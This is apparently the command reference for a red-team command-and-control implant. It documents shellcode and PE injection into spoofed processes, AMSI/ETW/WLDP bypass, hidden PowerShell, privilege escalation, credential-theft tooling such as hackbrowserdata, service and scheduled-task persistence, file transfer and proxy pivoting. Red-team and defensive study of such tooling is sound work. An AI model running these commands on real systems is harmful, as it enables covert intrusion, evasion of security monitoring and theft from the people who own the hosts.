

implant usage
implant¶
info¶
show session info
Description
Displays the specified session info.
info
init¶
init session
init
ping¶
get bind implant response
ping
polling¶
polling task status
polling [flags]
Options
--interval int interval (default 1)
recover¶
recover session
recover
sleep¶
change implant sleep config
sleep [expression] [flags]
Options
--jitter float jitter
suicide¶
kill implant
suicide
switch¶
switch session
Description
Switch session to other pipeline connection
switch [pipeline name]
wait¶
wait for task to finish
wait
Examples
Wait task content.
wait 59
cancel_task¶
Cancel a task by task_id
cancel_task [task_id]
Examples
cancel_task <task_id>
fetch_task¶
Fetch the details of a task
fetch_task
files¶
List all downloaded files.
files
list_task¶
List all tasks
list_task
Examples
list_task
query_task¶
Query a task by task_id
query_task [task_id]
Examples
query_task <task_id>
tasks¶
List tasks
Description
List tasks
tasks
Options
-a, --all show all tasks
clear¶
Clear modules
clear
list_module¶
List modules
list_module
load_module¶
Load module
load_module [module_file] [flags]
Examples
load module from malefic-modules before loading, you can list the current modules:
execute_addon,exec ...
load_module --path <module_file.dll>
execute_addon,clear,ps,powershell...
Options
--3rd string build 3rd-party modules
--artifact string exist module artifact
--bundle string bundle name
--modules string modules list,eg: basic,extend
--path string module path
refresh_module¶
Refresh module
refresh_module
explorer¶
file explorer
explorer
reg_explorer¶
registry explorer
reg_explorer
execute_addon¶
Execute the loaded addon
execute_addon [flags]
Examples
Execute the addon without "-" arguments
execute_addon httpx 1.1.1.1
execute_addon gogo.exe -- -i 127.0.0.1 -p http
execute_addon gogo -- -i 127.0.0.1 -p http
Options
--arch string architecture x64,x86
-a, --argue string spoofing process arguments, eg: notepad.exe
-b, --block_dll block not microsoft dll injection
--delay uint32 delay before execution in milliseconds (default 1)
--etw disable ETW
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
list_addon¶
List all addons
list_addon [addon]
load_addon¶
Load an addon
Description
Load an executable into the implant's memory for reuse
load_addon [flags]
Examples
addon default name is filename, default module is selected based on the file extension
load_addon gogo.exe
load_addon gogo.exe -n gogo -m execute_exe
Options
-m, --module string module type
-n, --name string addon name
execute¶
bof¶
COFF Loader, executes Bof (Windows Only)
Description
refactor from https://github.com/hakaioffsec/coffee ,fix a bundle bugs
Arguments for the BOF can be passed after the -- delimiter. Each argument must be prefixed with the type of the argument followed by a colon (:). The following types are supported:
- str - A null-terminated string
- wstr - A wide null-terminated string
- int - A signed 32-bit integer
- short - A signed 16-bit integer
- bin - A base64-encoded binary blob
bof [bof]
Examples
bof dir.x64.o -- wstr:"C:\\Windows\\System32"
dllspawn¶
DllSpawn the given DLL in the sacrifice process
Description
use a custom Headless PE loader to load DLL in the sacrificed process.
dllspawn [dll] [flags]
Examples
dllspawn example.dll
Options
--arch string architecture x64,x86
-a, --argue string spoofing process arguments, eg: notepad.exe
--binPath string custom process path
-b, --block_dll block not microsoft dll injection
--delay uint32 delay before execution in milliseconds (default 1)
-e, --entrypoint string custom entrypoint
--etw disable ETW
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
execute¶
Execute commands
Description
Exec local executable file, without output
execute [cmdline]
Examples
Execute the executable file without any '-' arguments.
execute whoami
execute gogo.exe -- -i 127.0.0.1 -p http
execute_assembly¶
Loads and executes a .NET assembly in implant process (Windows Only)
Description
Load CLR assembly in sacrifice process (with donut)
execute_assembly [file] [flags]
Examples
execute-assembly potato.exe "whoami"
Options
--amsi bypass AMSI
-a, --argue string spoofing process arguments, eg: notepad.exe
-b, --block_dll block not microsoft dll injection
--bypass-all bypass AMSI,ETW,WLDP
--etw disable ETW
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
--wldp bypass WLDP
execute_dll¶
Executes the given DLL in the sacrifice process
Description
use a custom Headless PE loader to load DLL in the sacrificed process.
execute_dll [dll] [flags]
Examples
execute_dll example.dll
if entrypoint not default, you can specify the entrypoint
execute_dll example.dll -e entrypoint -- arg1 arg2
Options
--arch string architecture x64,x86
-a, --argue string spoofing process arguments, eg: notepad.exe
--binPath string custom process path
-b, --block_dll block not microsoft dll injection
--delay uint32 delay before execution in milliseconds (default 1)
-e, --entrypoint string custom entrypoint
--etw disable ETW
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
execute_exe¶
Executes the given PE in the sacrifice process

Description
use a custom Headless PE loader to load EXE in the sacrificed process.
execute_exe [exe] [flags]
Examples
execute_exe gogo.exe -- -i 123.123.123.123 -p top2
Options
--arch string architecture x64,x86
-a, --argue string spoofing process arguments, eg: notepad.exe
-b, --block_dll block not microsoft dll injection
--delay uint32 delay before execution in milliseconds (default 1)
--etw disable ETW
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
execute_local¶
Execute local PE on sacrifice process
Description
Execute local PE on sacrifice process, support spoofing process arguments, spoofing ppid, block-dll, disable etw
execute_local [local_exe] [flags]
Examples
execute_local local_exe --ppid 1234 --block_dll --etw --argue "argue"
Options
-a, --argue string spoofing process arguments, eg: notepad.exe
-b, --block_dll block not microsoft dll injection
--etw disable ETW
-o, --output disable output
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
-n, --process string custom process path
execute_shellcode¶
Executes the given shellcode in the sacrifice process
Description
The current shellcode injection method uses APC.
In the future, configurable shellcode injection settings will be provided, along with Donut, SGN, SRDI, etc.
execute_shellcode [shellcode_file] [flags]
Examples
execute_shellcode example.bin
Options
--arch string architecture x64,x86
-a, --argue string spoofing process arguments, eg: notepad.exe
-b, --block_dll block not microsoft dll injection
--delay uint32 delay before execution in milliseconds (default 1)
--etw disable ETW
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
inline_assembly¶
Loads and inline execute a .NET assembly (Windows Only)
Description
Load CLR assembly in implant process(will not create new process)
if return 0x80004005, please use --amsi bypass.
inline_assembly [file] [flags]
Examples
inline execute a .NET assembly
inline-assembly --amsi potato.exe "whoami"
inline-assembly --amsi potato.exe -- cmd /c whoami
Options
--amsi bypass AMSI
--bypass-all bypass AMSI,ETW,WLDP
--etw bypass ETW
--wldp bypass WLDP
inline_dll¶
Executes the given inline DLL in the current process
Description
use a custom Headless PE loader to load DLL in the current process.
"instability warning!!!
inline execute dll may cause the implant to crash, please use with caution.
inline_dll [dll] [flags]
Examples
execute an inline DLL with the default entry point
inline_dll example.dll
inline_dll example.dll -e RunFunction -- arg1 arg2
Options
--arch string architecture x64,x86
--delay uint32 delay before execution in milliseconds (default 1)
-e, --entrypoint string entrypoint
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
inline_exe¶
Executes the given inline EXE in current process
Description
use a custom Headless PE loader to load EXE in the current process.
"instability warning!!!
inline execute exe may cause the implant to crash, please use with caution.
if double run same exe, More likely to crash
inline_exe [exe] [flags]
Examples
execute the inline PE file
inline_exe hackbrowserdata.exe -- -h
Options
--arch string architecture x64,x86
--delay uint32 delay before execution in milliseconds (default 1)
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
inline_local¶
Execute inline PE on implant process
Description
Execute inline PE on implant process, support spoofing process arguments
inline_local [local_exe] [flags]
Examples
inline_local whoami
Options
-a, --argue string spoofing process arguments, eg: notepad.exe
-b, --block_dll block not microsoft dll injection
--etw disable ETW
-o, --output disable output
-p, --ppid uint32 spoofing parent processes, (0 means injection into ourselves)
-n, --process string custom process path
inline_shellcode¶
Executes the given inline shellcode in the implant process
Description
The current shellcode injection method uses APC.
"instability warning!!!
inline execute shellcode may cause the implant to crash, please use with caution.
inline_shellcode [shellcode_file] [flags]
Examples
inline_shellcode example.bin
Options
--arch string architecture x64,x86
--delay uint32 delay before execution in milliseconds (default 1)
-n, --process string custom process path (default "C:\\\\Windows\\\\System32\\\\notepad.exe")
-q, --quiet disable output
-t, --timeout uint32 timeout, in seconds (default 60)
powerpick¶
unmanaged powershell on implant process (Windows Only)
powerpick [args] [flags]
Examples
powerpick -s powerview.ps1 -- Get-NetUser
Options
--amsi bypass AMSI
--bypass-all bypass AMSI,ETW,WLDP
--etw bypass ETW
-s, --script string powershell script
--wldp bypass WLDP
powershell¶
Execute cmd with powershell
Description
equal: powershell.exe -ExecutionPolicy Bypass -w hidden -nop "[cmdline]"
powershell [cmdline] [flags]
Examples
execute powershell command:
powershell dir
Options
-q, --quiet disable output
run¶
run commands
Description
Exec local executable file, return output
run [cmdline]
Examples
Execute the executable file without any '-' arguments.
run whoami
run gogo.exe -- -i 127.0.0.1 -p http
shell¶
Execute cmd
Description
equal: exec cmd /c "[cmdline]"
shell [cmdline] [flags]
Options
-q, --quiet disable output
sys¶
bypass¶
Bypass AMSI and ETW
bypass [flags]
Examples
bypass --amsi --etw
Options
--amsi Bypass AMSI
--etw Bypass ETW
env¶
List environment variables
env
SEE ALSO
env set¶
Set environment variable
env set [env-key] [env-value]
Examples
setenv key1 value1
~~~
**SEE ALSO**
* [env](#env) - List environment variables
#### env unset
Unset environment variable
```
env unset [env-key]
```
**Examples**
SEE ALSO
- env - List environment variables
kill¶
Kill the process by pid
kill [pid]
Examples
kill the process which pid is 1234
kill 1234
netstat¶
List network connections
netstat
ps¶
List processes
ps
sysinfo¶
Get basic sys info
sysinfo
whoami¶
Print current user
whoami
wmi_execute¶
Execute a WMI method
Description
Executes a specified method within a WMI class, allowing for more complex administrative actions via WMI.
wmi_execute [flags]
Examples
Execute a WMI method:
wmi_execute --namespace <namespace> --class_name <classname> --method_name <method_name> --params <key1>=<value1>,<key2>=<value2>
~~~
Execute a WMI method to create a new process:
**Options**
```
--class_name string WMI class name
--method_name string WMI method name
--namespace string WMI namespace (e.g., root\cimv2)
--params strings Parameters for the WMI method
```
### wmi_query
Perform a WMI query
**Description**
Executes a WMI query within the specified namespace to retrieve system information or perform administrative actions.
```
wmi_query [flags]
```
**Examples**
Perform a WMI query in the root\\cimv2 namespace:
~~~
wmi_query --namespace root\\cimv2 --args "SELECT * FROM Win32_Process"
~~~
**Options**
```
--args strings Arguments for the WMI query
--namespace string WMI namespace (e.g., root\cimv2)
```
### service
Perform service operations
**Description**
Manage services, including listing, creating, starting, stopping, and querying service status.
**SEE ALSO**
* [service create](#service-create) - Create a new service
* [service delete](#service-delete) - Delete a specified service
* [service list](#service-list) - List all available services
* [service query](#service-query) - Query the status of a service
* [service start](#service-start) - Start an existing service
* [service stop](#service-stop) - Stop a running service
#### service create
Create a new service
**Description**
Create a new service with specified name, display name, executable path, start type, error control, and account name.
Control the start type and error control by providing appropriate values.
```
service create [flags]
```
**Examples**
Create a new service named "example_service":
~~~
service create --name example_service --display "Example Service" --path /path/to/executable --start_type AutoStart --error Normal
~~~
**Options**
```
--account string AccountName for service (LocalSystem, NetworkService; \<hostname\>\\\<username\> NT AUTHORITY\SYSTEM; .\username, ..) (default "LocalSystem")
--display string Display name of the service
--error string Error control level (Ignore, Normal, Severe, Critical) (default "Normal")
--name string Name of the service (required)
--path string Path to the executable (required)
--start_type string Service start type (BootStart, SystemStart, AutoStart, DemandStart, Disabled) (default "AutoStart")
```
**SEE ALSO**
* [service](#service) - Perform service operations
#### service delete
Delete a specified service
**Description**
Delete a service by specifying its name, removing it from the system permanently.
```
service delete [name]
```
**Examples**
Delete a service named "ExampleService":
~~~
service delete ExampleService
~~~
**SEE ALSO**
* [service](#service) - Perform service operations
#### service list
List all available services
**Description**
Retrieve and display a list of all services available on the system, including their configuration and current status.
```
service list
```
**Examples**
List all services:
~~~
service list
~~~
**SEE ALSO**
* [service](#service) - Perform service operations
#### service query
Query the status of a service
**Description**
Retrieve the current status and configuration of a specified service.
```
service query [service_name]
```
**Examples**
Query the status of a service named "example_service":
~~~
service query example_service
~~~
**SEE ALSO**
* [service](#service) - Perform service operations
#### service start
Start an existing service
**Description**
Start a service by specifying its name.
```
service start [service_name]
```
**Examples**
Start a service named "example_service":
~~~
service start example_service
~~~
**SEE ALSO**
* [service](#service) - Perform service operations
#### service stop
Stop a running service
**Description**
Stop a service by specifying its name. This command will halt the service's operation.
```
service stop [service_name]
```
**Examples**
Stop a service named "example_service":
~~~
service stop example_service
~~~
**SEE ALSO**
* [service](#service) - Perform service operations
### reg
Perform registry operations
**Description**
Manage Windows registry entries, including querying, adding, deleting, listing keys, and listing values.
**SEE ALSO**
* [reg add](#reg-add) - Add or modify a registry key
* [reg delete](#reg-delete) - Delete a registry key
* [reg list_key](#reg-list_key) - List subkeys in a registry path
* [reg list_value](#reg-list_value) - List values in a registry path
* [reg query](#reg-query) - Query a registry key
#### reg add
Add or modify a registry key
**Description**
Add or modify a registry key with specified values. Supported types: REG_SZ, REG_BINARY, REG_DWORD, REG_QWORD
```
reg add [path] [flags]
```
**Examples**
Add or modify a registry key:
~~~
reg add HKEY_LOCAL_MACHINE\\SOFTWARE\\Example -v TestValue -t REG_DWORD -d 1
reg add HKEY_LOCAL_MACHINE\\SOFTWARE\\Example -v TestString -t REG_SZ -d "Hello World"
reg add HKEY_LOCAL_MACHINE\\SOFTWARE\\Example -v TestBinary -t REG_BINARY -d 01020304
~~~
**Options**
```
-d, --data string Data to set
-t, --type string Value type (REG_SZ, REG_BINARY, REG_DWORD, REG_QWORD) (default "REG_SZ")
-v, --value string Value name
```
**SEE ALSO**
* [reg](#reg) - Perform registry operations
#### reg delete
Delete a registry key
**Description**
Remove a specific registry key.
```
reg delete --hive [hive] --path [path] --key [key]
```
**Examples**
Delete a registry key:
~~~
reg delete HKEY_LOCAL_MACHINE\\SOFTWARE\\Example TestKey
~~~
**SEE ALSO**
* [reg](#reg) - Perform registry operations
#### reg list_key
List subkeys in a registry path
**Description**
Retrieve a list of all subkeys under a specified registry path.
```
reg list_key --hive [hive] --path [path]
```
**Examples**
List subkeys in a registry path:
~~~
reg list_key HKEY_LOCAL_MACHINE\\SOFTWARE\\Example
~~~
**SEE ALSO**
* [reg](#reg) - Perform registry operations
#### reg list_value
List values in a registry path
**Description**
Retrieve a list of all values under a specified registry path.
```
reg list_value --hive [hive] --path [path]
```
**Examples**
List values in a registry path:
~~~
reg list_value HKEY_LOCAL_MACHINE\\SOFTWARE\\Example
~~~
**SEE ALSO**
* [reg](#reg) - Perform registry operations
#### reg query
Query a registry key
**Description**
Retrieve the value associated with a specific registry key.
```
reg query --hive [hive] --path [path] --key [key]
```
**Examples**
Query a registry key:
~~~
reg query HKEY_LOCAL_MACHINE\\SOFTWARE\\Example TestKey
~~~
**SEE ALSO**
* [reg](#reg) - Perform registry operations
### taskschd
Manage scheduled tasks
**Description**
Perform operations related to scheduled tasks, including listing, creating, starting, stopping, and deleting tasks.
**SEE ALSO**
* [taskschd create](#taskschd-create) - Create a new scheduled task
* [taskschd delete](#taskschd-delete) - Delete a scheduled task
* [taskschd list](#taskschd-list) - List all scheduled tasks
* [taskschd query](#taskschd-query) - Query the configuration of a scheduled task
* [taskschd run](#taskschd-run) - Run a scheduled task immediately
* [taskschd start](#taskschd-start) - Start a scheduled task
* [taskschd stop](#taskschd-stop) - Stop a running scheduled task
#### taskschd create
Create a new scheduled task
**Description**
Create a new scheduled task with the specified name, executable path, trigger type, and start boundary.
```
taskschd create [flags]
```
**Examples**
Create a scheduled task:
~~~
taskschd create --name ExampleTask --path /path/to/executable --trigger_type 1 --start_boundary "2023-10-10T09:00:00"
~~~
**Options**
```
--name string Name of the scheduled task (required)
--path string Path to the executable for the scheduled task (required)
--start_boundary string Start boundary for the scheduled task (e.g., 2023-10-10T09:00:00)
--trigger_type string Trigger type for the task (e.g. Daily,Weekly,monthly)
```
**SEE ALSO**
* [taskschd](#taskschd) - Manage scheduled tasks
#### taskschd delete
Delete a scheduled task
**Description**
Delete a scheduled task by specifying its name.
```
taskschd delete [name]
```
**Examples**
Delete a scheduled task:
~~~
taskschd delete ExampleTask
~~~
**SEE ALSO**
* [taskschd](#taskschd) - Manage scheduled tasks
#### taskschd list
List all scheduled tasks
**Description**
Retrieve a list of all scheduled tasks on the system.
```
taskschd list
```
**Examples**
List all scheduled tasks:
~~~
taskschd list
~~~
**SEE ALSO**
* [taskschd](#taskschd) - Manage scheduled tasks
#### taskschd query
Query the configuration of a scheduled task
**Description**
Retrieve the current configuration, status, and timing information of a specified scheduled task by name.
```
taskschd query [name]
```
**Examples**
Query the configuration of a scheduled task:
~~~
taskschd query ExampleTask
~~~
**SEE ALSO**
* [taskschd](#taskschd) - Manage scheduled tasks
#### taskschd run
Run a scheduled task immediately
**Description**
Execute a scheduled task immediately by specifying its name.
```
taskschd run [name]
```
**Examples**
Run a scheduled task immediately:
~~~
taskschd run ExampleTask
~~~
**SEE ALSO**
* [taskschd](#taskschd) - Manage scheduled tasks
#### taskschd start
Start a scheduled task
**Description**
Start a scheduled task by specifying its name.
```
taskschd start [name]
```
**Examples**
Start a scheduled task:
~~~
taskschd start ExampleTask
~~~
**SEE ALSO**
* [taskschd](#taskschd) - Manage scheduled tasks
#### taskschd stop
Stop a running scheduled task
**Description**
Stop a scheduled task by specifying its name.
```
taskschd stop [name]
```
**Examples**
Stop a scheduled task:
~~~
taskschd stop ExampleTask
~~~
**SEE ALSO**
* [taskschd](#taskschd) - Manage scheduled tasks
### getsystem
Attempt to elevate privileges
```
getsystem
```
**Examples**
Attempt to elevate privileges:
~~~
getsystem
~~~
### privs
List available privileges
```
privs
```
**Examples**
List available privileges:
~~~
sys privs
~~~
### rev2self
Revert to the original token
```
rev2self
```
**Examples**
Revert to the original token:
~~~
sys rev2self
~~~
### runas
Run a program as another user
```
runas --username [username] --domain [domain] --password [password] --program [program] --args [args] --use-profile --use-env --netonly [flags]
```
**Examples**
Run a program as a different user:
~~~
sys runas --username admin --domain EXAMPLE --password admin123 --program /path/to/program --args "arg1 arg2" --use-profile --use-env
~~~
**Options**
```
--args string Arguments for the program
--domain string Domain of the user
--netonly Use network credentials only
--password string User password
--path string Path to the program to execute
--use-env Use user environment
--use-profile Load user profile
--username string Username to run as
```
### request
Send HTTP request
**Description**
Send HTTP request to specified URL
```
request [url] [flags]
```
**Examples**
request -X POST -d "data" http://example.com
request -H "Host: example.com" -H "User-Agent: custom" http://example.com
**Options**
```
-d, --body string request body
-H, --header stringArray HTTP header (can be used multiple times)
-X, --method string HTTP method (default "GET")
-t, --timeout int request timeout in seconds (default 30)
```
## file
### download
Download file
**Description**
download file in implant
```
download [implant_file] [flags]
```
**Examples**
**Options**
```
-r, --dir download dir
```
### upload
Upload file
**Description**
upload local file to remote implant
```
upload [local] [remote] [flags]
```
**Examples**
**Options**
```
--hidden hidden file
--priv string file privilege (default "0644")
```
### cat
Print file content
**Description**
concatenate and display the contents of file in implant
```
cat [implant_file]
```
**Examples**
### cd
Change directory
**Description**
change the shell's current working directory in implant
```
cd
```
### chmod
Change file mode
**Description**
change the permissions of files and directories in implant
```
chmod [file] [mode]
```
**Examples**
### chown
Change file owner
**Description**
change the ownership of a file or directory in implant
```
chown [file] [user] [flags]
```
**Examples**
**Options**
```
-g, --gid string Group id
-r, --recursive recursive
```
### cp
Copy file
**Description**
copy files and directories in implant
```
cp [source] [target]
```
**Examples**
### ls
List directory
**Description**
list directory contents in implant
```
ls [path]
```
**Examples**
### mkdir
Make directory
**Description**
make directories in implant
```
mkdir [path]
```
**Examples**
### mv
Move file
**Description**
move files and directories in implant
```
mv [source] [target]
```
**Examples**
### pwd
Print working directory
**Description**
print working directory in implant
```
pwd
```
### rm
Remove file
**Description**
remove files and directories in implant
```
rm [file]
```
**Examples**
### pipe
Manage named pipes
**Description**
Perform operations related to named pipes, including uploading, reading, and closing pipes.
**SEE ALSO**
* [pipe read](#pipe-read) - Read data from a named pipe
* [pipe upload](#pipe-upload) - Upload file to a named pipe
#### pipe read
Read data from a named pipe
**Description**
Read data from a specified named pipe.
```
pipe read [pipe_name]
```
**Examples**
Read data from pipe:
~~~
pipe read \\.\pipe\test_pipe
~~~
**SEE ALSO**
* [pipe](#pipe) - Manage named pipes
#### pipe upload
Upload file to a named pipe
**Description**
Upload the content of a specified file to a named pipe.
```
pipe upload [pipe_name] [file_path]
```
**Examples**
Upload file to pipe:
~~~
pipe upload \\.\pipe\test_pipe /path/to/file
~~~
**SEE ALSO**
* [pipe](#pipe) - Manage named pipes
## pivot
### portfwd
Forward local port to remote target
**Description**
Forward local port to remote target through the implant
```
portfwd [pipeline] [flags]
```
**Examples**
Forward local port to remote target:
**Options**
```
-p, --port string Local port to listen on
-t, --target string Remote target address (host:port)
```
### portfwd_local
Forward local port to remote target
```
portfwd_local [pipeline] [agent] [flags]
```
**Options**
```
-l, --local string Local address to connect to (host:port)
-p, --port string Local port to listen on
```
### proxy
Create a proxy through the implant
**Description**
Create a proxy server through the implant with optional authentication
```
proxy [pipeline] [flags]
```
**Examples**
Create a proxy server:
**Options**
```
--password string Password for authentication (default "maliceofinternal")
-p, --port string Local port to listen on
--protocol string Inbound protocol (default "socks5")
-u, --username string Username for authentication (default "maliceofinternal")
```
### rem_dial
Run rem on the implant
```
rem_dial [pipeline] [args]
```
### reverse
Reverse port forward from remote to local
**Description**
Create a reverse port forward from remote target to local through the implant
```
reverse [pipeline] [flags]
```
**Examples**
Create reverse port forward:
**Options**
```
--password string Password for authentication (default "maliceofinternal")
-p, --port string Local port to listen on
--protocol string Inbound protocol (default "socks5")
-u, --username string Username for authentication (default "maliceofinternal")
```
### rportfwd
Remote port forward through the implant
**Description**
Create a remote port forward through the implant to connect back to a local port
```
rportfwd [pipeline] [flags]
```
**Examples**
Create remote port forward:
Options
-p, --port string Local port to listen on
-r, --remote string implant's address to connect to (host:port)
rportfwd_local¶
Remote port forward through the implant to client
rportfwd_local [pipeline] [agent] [flags]
Options
-p, --port string Local port to listen on
-r, --remote string implant's internal address to connect to (host:port)